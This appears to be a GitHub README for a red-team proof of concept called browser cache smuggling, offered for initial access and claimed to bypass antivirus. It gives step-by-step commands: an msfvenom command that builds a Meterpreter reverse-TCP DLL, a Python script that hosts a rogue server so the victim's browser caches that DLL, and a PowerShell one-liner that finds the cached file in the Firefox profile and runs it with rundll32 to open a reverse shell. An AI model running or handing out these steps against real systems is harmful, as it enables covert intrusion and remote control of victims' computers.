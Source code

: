 # Browser cache smuggling Attack

- This repository is all about the POC that can be leveraged down for initial access in red teaming engagements.
- This has the capabilities to bypass AV , depends on from where DLL is generated !!
- This Repo is in development , we will be adding more module for Brave & Chrome Browser soon....

# Theory Behind it :

- To better understand how this attack work , please navigate to : https://surya-dev-singh.github.io/posts/Cache-Smuggling-Attack/
![](https://raw.githubusercontent.com/surya-dev-singh/BrowserCacheSmuggling/main/Firefox%20Cache%20Smuggling.png)

# How to Execute it ?

## **Step 1 :** 
Git Clone the URL  & install the dependency : `pip3 install -r requirements.txt` 
also make sure Nginx is installed on the machine 

## **Step 2:** 
create your malicious DLL file , from your favorite C2 server . example :
`msfvenom -p /windows/x64/meterpreter/reverse_tcp LHOST=<localip> LPORT=<local_port> -f dll -o malicious.dll` and configure your listener accordingly .

## **Step 3:**
Host you rouge Server that coerce browser to Cache The response.

```python3
python3 browsercachesmuggling.py --dll /root/smugglers.dll <malicious_dll>
```

![](https://surya-dev-singh.github.io/assets/img/Cache%20Smuggling%20Attack/Pasted%20image%2020231025192341.png)

## Step 4:
Once Our data is begin cache , we can now run the following command on victim PC like so: 

```powershell
foreach ($files in @("$env:LOCALAPPDATA\Mozilla\Firefox\Profiles\*.default-release\cache2\entries\")) {Get-ChildItem $files -Recurse | ForEach-Object {if (Select-String -Pattern "ENTRYPOINT" -Path $_.FullName) {$dllPath = $_.FullName + '.'; rundll32.exe $dllPath,MainDll}}}
```
**NOTE:** From the above command , make sure when u are running the dll file from rundll32 , you provide proper entry point eg (MainDLL) , which may be different for havoc C2.
and we will get our reverse shell !! 
